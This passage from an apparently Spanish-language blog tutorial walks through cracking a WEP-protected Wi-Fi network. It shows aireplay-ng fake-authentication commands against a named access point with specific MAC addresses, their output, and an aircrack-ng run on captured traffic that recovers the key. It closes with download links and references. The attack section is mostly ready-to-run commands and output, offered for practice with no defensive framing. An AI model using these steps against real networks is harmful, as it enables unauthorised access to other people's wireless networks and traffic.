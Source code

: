 18:18:20  Authentication successful
18:18:20  Sending Association Request
18:18:20  Association successful :-)</pre>
<p>El otro método es el que sigue:</p>
<pre class="code">aireplay-ng -1 6000 -o 1 -q 10 -e JAZZTEL_2C -a 00:1A:23:14:23:3C -h 00:16:CB:BA:23:D2 ath0</pre>
<p>Aquí estamos indicando que envíe paquetes cada 6 segundos (en milisegundos) y que sólo los envíe en grupos de uno (-o 1) ya que muchos AP se confunden al mandarles muchos paquetes juntos (que es como actúa por defecto).</p>
<pre class="code">18:19:20  Sending Authentication Request (Open System) [ACK]
18:19:20  Authentication successful
18:19:20  Sending Association Request [ACK]
18:19:20  Association successful :-) (AID: 1)
18:19:42  Sending keep-alive packet [ACK]
18:19:55  Sending keep-alive packet [ACK]</pre>
<p>Ambas son igualmente eficientes (quizás la primera sea un poco más rápida, pero habrá muchas ocasiones en que no podréis utilizarla). Os recomiendo la segunda, ya que no paramos de autenticarnos en el router y no le damos pie a errores.</p>
<h4><a name="aircrack"></a>Averiguando la clave con aircrack-ng</h4>
<p>Cuando el número de #Data esté por encima de 30.000 podemos ir ejecutando aircrack-ng en una nueva terminal cargando el fichero que se va guardando (es decir, no paréis la captura de paquetes con airodump, por si no tuviérais suficientes datos):</p>
<pre class="code">aircrack-ng jazztel2c-01.cap</pre>
<p>Y.. presto! Ya tenemos nuestra clave:</p>
<p>[caption id="attachment_338" align="aligncenter" width="286" caption="Contraseña desencriptada (clic para ampliar)"]<a title="aircrack-ng (ampliar)" rel="lightbox" href="http://racotecnic.underave.net/wp-content/uploads/2009/03/aircrack-ng.png" target="_blank"><img class="size-full wp-image-338" title="aircrack-ng_thumb" src="http://racotecnic.underave.net/wp-content/uploads/2009/03/aircrack-ng_thumb.png" alt="aircrack-ng_thumb" width="286" height="33" /></a>[/caption]</p>
<h3><a name="descargas"></a>Descarga de ficheros</h3>
<p>En caso de que no pudierais utilizar "aptitude" porque la máquina desde la cual queréis hacer los ataques no tiene conexión a internet podéis descargar todos los programas que he ido mencionando desde la página de paquetes de ubuntu:</p>
<blockquote>
<ul>
<li><a title="Descargar build-essential" href="http://packages.ubuntu.com/intrepid/build-essential" target="_blank">build-essential</a></li>
<li><a title="Descargar linux-headers-*" href="http://packages.ubuntu.com/search?searchon=names&amp;keywords=linux-headers" target="_blank">linux-headers</a></li>
<li><a title="Descargar aircrack-ng" href="http://packages.ubuntu.com/intrepid/aircrack-ng" target="_blank">aircrack-ng</a></li>
</ul>
</blockquote>
<p>En el caso de los linux-headers debéis descargar la versión correspondiente a vuestra versión de kernel. Para averiguarla podéis hacerlo con "uname":</p>
<pre class="code">uname -r</pre>
<p>Recordad destruir la interfaz y reactivarla en modo standalone una vez tengáis la contraseña para poderos conectar normalmente al AP.</p>
<h3><a name="referencias"></a>Páginas de referencia</h3>
<blockquote>
<ul>
<li><a title="Ver original" href="http://ubuntuforums.org/showthread.php?t=528276" target="_blank">HOWTO: Aircrack-NG</a></li>
<li><a title="Ver original" href="http://forums.remote-exploit.org/showthread.php?t=330" target="_blank">Howto get Madwifi-ng drivers to work properly!</a></li>
<li><a title="Ir a google" href="http://www.google.es" target="_blank">Ooh todopoderoso Google</a></li>
</ul>
</blockquote>
<p>Espero haberme explicado con suficiente claridad. Me he pasado mucho tiempo intentando organizarlo de la mejor manera posible. Ahora sólo os queda practicar! Con unas cuántas pruebas le pillaréis el tranquillo ;)</p>
